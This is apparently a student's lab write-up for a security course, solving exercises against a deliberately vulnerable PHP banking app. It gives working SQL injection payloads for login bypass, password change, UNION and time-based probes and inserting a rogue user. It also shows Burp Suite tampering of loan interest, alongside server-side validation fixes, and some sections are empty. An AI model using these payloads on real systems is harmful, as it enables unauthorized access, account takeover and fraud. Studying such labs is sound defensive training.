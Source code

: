 ### Exercise 2:
__1Q :__  Identify a mechanism which protects the login process (not on the server) and
briefly describe the general security problem with this implementation.
__1:__ 
-   The client side script restricts the user input to avoid any kind of injection or malicious payload that can be entered through the input form.
The following check is responsible for validation:


```javascript
function checkform() {
	loginform = document.loginForm;
	if (loginform) {
		var username = loginform.username.value;
		if (username.match("[^a-zA-Z0-9]")) {
			// something is wrong
			alert('Error: The username only allows letters and numbers as valid characters!');
			return false;
		} else {
			var password = loginform.password.value;
			if (password.match("[^a-zA-Z0-9]")) {
				// something else is wrong
				alert('Error: The password only allows letters and numbers as valid characters!');
				return false;
			}
		}
		document.loginForm.submit();
		return true;
	}
	return false;

```   

<img src="https://raw.githubusercontent.com/shashihacks/oscp-new/master/Security%20Insider%20Lab-2/assets/input_validation.PNG?token=AD4TE5YM74T5AHJZAHM7CXTASDXZM" alt="input_validation">


__Security problem :__
- Client can disable javascript to avoid validation, which can cause the application to allow  malicious payload and bypass the restriction imposed by the application
- The payload is sent using GET request (which can be observed from network tab)

```php
GET /htdocs/login.php?username=alex&password=test123
```

The above request can be captured and replayed without the need to enter the input in the form, which bypasses the imposed restriction



__2.__ 
    - __Step 1:__ capture the URL on login page submit
    - __Step 2:__ modify the parameters (`username` and `password`) and submit through   browser or web proxy(in our case- ___burpsuite___)
    - __Step 3:__ send the request from the burpsuite and reload the page.
    - Payload used:  

```php
/htdocs/login.php?username=alex'%23&password=test123
```
> `%23` represents `#` to comment the succeding parameters


![validation-bypass](https://raw.githubusercontent.com/shashihacks/oscp-new/master/Security%20Insider%20Lab-2/assets/validation_bypass.PNG?token=AD4TE53ABTNEZCNJDB4SXJ3ASECMC)

3. __Better solution:__
    - Validate the user input on the server side and return if input is other than the whitelisted characters  or use the mysql

    __Replace:__
    ```php
    $username = $_REQUEST['username'];
    $password = $_REQUEST['password'];
    ```


    __with:__  

    ```php
    $username = validate($_REQUEST['username']); 
    $password = validate($_REQUEST['password']); 

    function validate($data) {
        $data = trim($data);
        $data = stripslashes($data);
        $data = htmlspecialchars($data);
        return $data;
    }
    ```

- Other functions like `htmlspecialchars()` `mysql_real_escape_string()` can be also be used

E.g:  
```php
$query = sprintf("SELECT * FROM users WHERE user='%s' AND password='%s'",
            mysql_real_escape_string($user),
            mysql_real_escape_string($password));
```


### Exercise 3: SQL Injection

__1. Find a query to enter the system (without manipulating the data used by the
web application, you should get access on behalf of another user). Show this
query and briefly explain it using the source code at hand.__

__Solution:__

```
GET /htdocs/login.php?username=a&password=test'%20or%20'1'='1 HTTP/1.1

GET /htdocs/login.php?username=alex' or '1'='1' #&password=tes
```

> __Note:__ URL encode the payload to combine with the request  
> The second request, the password part is commented



__2. Fire your attack…!!!
Why is your attack successful? & which checks and mechanisms can prevent this
failure (mention at least two mechanisms).__
__Solution:__


__3. Change the password of the user you are logged in with. Briefly describe your
actions and indicate the source code allowing for this attack.__
__Solution:__
**step 1**: find the page that is responsible for password change
    
```bash 
    $ grep -Ril "not changed"                              
    htbchgpwd.page
```  

**step 2:** Find query responsible for password change
```php

    $sql="SELECT ".$htbconf['db/users.password']." FROM ".$htbconf['db/users']." where ". $htbconf['db/users.id']."='".$_SESSION['userid']."' and ". $htbconf['db/users.password']."='".$http['oldpwd']."'";
```
 - query used to exploit (payload is part of form data)
 - Exploited using blind sql same way as in login page
 ```php
    oldpwd=test'%20or%20'1'='1&newpwd1=test123&newpwd2=test123&submit=Submit
 ```


<hr>



### Exercise 4: SQL Injection - continued

__1. Briefly describe how did you retrieve the information you need to create a new
user.__





### Exercise 5: Request Manipulation

__1. Install a tool which allows you to manipulate requests of your browser. Briefly
discuss your choice__
__Solution :__

Tool Installed: **Burpsuite**
Reason: Burpsuite is a web proxy which allows to intercept, replay request from browser and offers additional fetaures like sniper attack,decoding payloads.

__2. Briefly describe the steps to request a loan from your victim will benefit__  
__Solution__

- __step 1:__ configure web browser(change proxy settings) with burpsuite to intercept requests.
- __step 2:__ Turn on the intercpt in burp `proxy`. 
- __step 3:__ Go to ***Request a loan*** page and enter the required details and submit the request.
> As the request is clicked burpsuite should intercept the request

![request_loan_intercept](assets/request_loan_intercept.png)

- __step 4:__ Modify  the Interest parameter from 4.2 to -4.2 (can be chnaged to whatever we want)

![request_loan_intercept_tampered](assets/request_loan_intercept_tampered.png)

- __step 5:__ forward the request. And Turn off the burp proxy
- __step 6:__ Modified Interest rate can be seen on confirmation request. Click confirm.  

![loan_confirm](assets/loan_confirm.png)  

- Loan sucess can be seen

![loan_sucess](assets/loan_sucess.png)

- __step 7:__ To confirm go to `My Loans` page.

![my_loans](assets/my_loans.png)















### Exercise 3 
following query works
```php
GET /htdocs/login.php?username=alex&password=test'%20or%20sleep%285%29%23
```

works
select * from users WHERE username='alex' or 1=1 UNION select 1,2,3,4,5,6,7,8

- ```GET /htdocs/login.php?username=test'%20or%20exists(SELECT%201%20%20FROM%20users%20limit%201)%23&password=asd ```
when `db_users` is used user doesn;t login
```
GET /htdocs/login.php?username=test' or exists(SELECT 1  FROM users limit 1)#&password=asd 
```

- the following query works for union selec
```php
GET /htdocs/login.php?username=alex' or '1'='1 UNION select 1,2,3,4,5,6,7,8#&password=asd
```

- following query works to insert username and password
```sql
SELECT * FROM `users` WHERE username="alex" ; INSERT INTO users(id, username, password) VALUES(77,"metest", "metest")
```

- query used to insert values
```php
GET /htdocs/login.php?username=alex'%3B%20INSERT%20INTO%20users(id%2C%20username%2C%20password)%20VALUES(77%2C%22metest%22%2C%20%22metest%22)%23&password=asd
```
<br></br><br></br><br></br><br></br><br></br><br></br><br></br>
    
        
